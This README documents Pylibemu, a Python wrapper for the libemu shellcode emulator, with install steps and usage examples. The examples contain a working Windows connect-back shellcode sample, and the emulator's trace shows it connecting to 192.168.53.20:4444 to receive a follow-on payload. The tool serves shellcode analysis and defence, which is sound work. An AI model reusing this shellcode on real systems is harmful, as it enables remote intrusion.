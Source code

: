 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

	$ sudo pip install pylibemu

or alternatively

	$ git clone --recursive https://github.com/buffer/pylibemu.git
	$ sudo python setup.py install

## Usage


	buffer@alnitak ~ $ python
	Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
	[GCC 4.4.4] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method 'run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter 'output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute 'emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator 'set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2016 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.

